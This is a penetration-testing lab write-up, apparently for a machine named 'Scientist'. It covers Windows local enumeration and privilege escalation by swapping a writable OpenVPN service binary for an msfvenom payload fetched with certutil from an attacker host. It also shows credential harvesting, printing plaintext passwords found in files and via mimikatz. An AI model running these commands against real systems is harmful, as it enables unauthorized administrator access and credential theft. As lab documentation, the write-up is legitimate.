


# Post Exploit - Scientist Machine

- [Post Exploit - Scientist Machine](#post-exploit---scientist-machine)
  - [Local Enumeration 1 - Iyer](#local-enumeration-1---iyer)
  - [Privilege escalation](#privilege-escalation)
  - [Local Enumeration 2 - Administrator](#local-enumeration-2---administrator)

---

## Local Enumeration 1 - Iyer

Check the user privilege:

```
whoami
whoami /priv
net localgroup administrators
```

  

* The current user `iyer` does not have admin privilege.

<br/>

Use `winPEAS.exe` to perform a local enumeration. (Ref: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

Serve `winPEAS.exe` using python on the attacker machine:

```
python3 -m http.server 80
```
  

<br/>

Download `winPEAS.exe` on the Scientist Machine using `certutil`:
```
certutil -urlcache -f http://192.168.100.11/winPEAS.exe .\winPEAS.exe
```

  

<br/>

Run `winPEAS.exe` to perform a local enuemraiton:
```
winPEAS.exe
```

However it is bugged since `atomic.site` is unresponsive:

  

<br/>

Manually enuemrating the `Program File (x86)` folder, user installed programs are `OpenVPN Technologies` and `Python38-32`:

  

<br/>

Get the current running processes:

```
powershell -c "Get-Process"
```

  

* `ovpn.exe` is running.

<br/>

Try to see if this is a service:

```
sc query ovpn
sc qc ovpn
```

  


  

* The current user can start / stop the service

<br/>

Check the permission of the binary path:

```
icacls "C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\*"
```

  


  

* The current user has the Full permission.

<br/>

## Privilege escalation

> Technique:<br/>
> T1543.003 - Create or Modify System Process: Windows Service<br/>
> https://attack.mitre.org/techniques/T1543/003/

<br/>

First backup a copy of `ovpn.exe`:

```
copy "C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\ovpn.exe" "C:\Users\Public\ovpn.exe"
```

  

<br/>

On the attacker machine, generate a payload which adds `OPERATIONS\iyer` as local admin with `msfvenom`, and then serve it using python http server:

```
msfvenom -p windows/exec CMD="net localgroup administrators OPERATIONS\iyer /add" -b "x00" -f exe > ovpn.exe
```

```
python3 -m http.server 80
```

  

<br/>

On the Scientist machine, replace `ovpn.exe` by the served one:

```
cd C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\
move ovpn.exe ovpn2.exe
certutil -urlcache -f http://192.168.100.11/ovpn.exe .\ovpn.exe
```

  

<br/>

Then restart the service `ovpn` to get the binary executed.

```
sc stop ovpn
sc start ovpn
```

  

  

  

* As shown, our privilege is escalated to local admin.

<br/>

Restart the reverse shell and we can browse the Administrator's folder:

  

<br/>

## Local Enumeration 2 - Administrator

Check the Administrator's desktop:

```
dir C:\Users\Administrator\Desktop\
```

  


<br/>

Check the content of `Git-Configuration.txt`:

```
cd C:\Users\Administrator\Desktop
type Git-Configuration.txt
```

  

  

* `automation-server.operations.atomic.site` (`10.1.3.1`)

<br/>

Try to clone the repo to the local:

```
git clone http://automation-server.operations.atomic.site/iyer/Database-Connection.git
```

  

<br/>

Check the files in to downloaded repo:

```
cd Database-Connection
dir
```

  

<br/>

Check the content of `migrate.txt`:

```
type to_migrate.txt
```

  

  

- Found 2 credentials:
  -  `iisadmin` \ `Head!!S%$#@!`
  -  SQL: `tutorialsdojo` \ `P@sSword123`

<br/>

Also we can use mimikatz to dump credential:

  

Iyer's credential:
- `operations\iyer`
- `Sc!ent!st@2`